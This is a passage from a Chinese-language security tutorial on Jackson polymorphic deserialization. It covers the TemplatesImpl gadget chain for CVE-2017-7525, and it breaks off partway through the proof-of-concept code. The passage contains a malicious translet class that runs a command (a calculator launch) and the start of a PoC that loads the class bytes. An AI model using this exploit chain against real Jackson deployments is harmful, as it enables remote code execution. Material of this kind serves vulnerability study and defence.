 - @JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)结果：

```
{"@c":"User","name":"Li","age":10,"obj":{"h":100}}
```

可以看到序列化时标注了类，无非就是注释不同，反序列化时就可以通过字段读取特殊类进行操作，对指定类进行序列化以及反序列化操作。

### TemplatesImpl利用链（CVE-2017-7525）

影响版本：

Jackson 2.6系列 < 2.6.7.1

Jackson 2.7系列 < 2.7.9.1

Jackson 2.8系列 < 2.8.8.1

这里需要注意的一点是JDK版本问题，1.7稳定执行，1.8部分版本无法执行

廖师傅的代码，恶意利用类

```java
public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("open -a Calculator");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```

测试POC

```java
public class Poc {

    static class Bean1599 {
        public int id;
        public Object obj;
    }
    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());

    }
    public static String aposToQuotes(String json) {
        return json.replace("'", "\"");
    }

    public static void main(String args[]) throws Exception
    {
```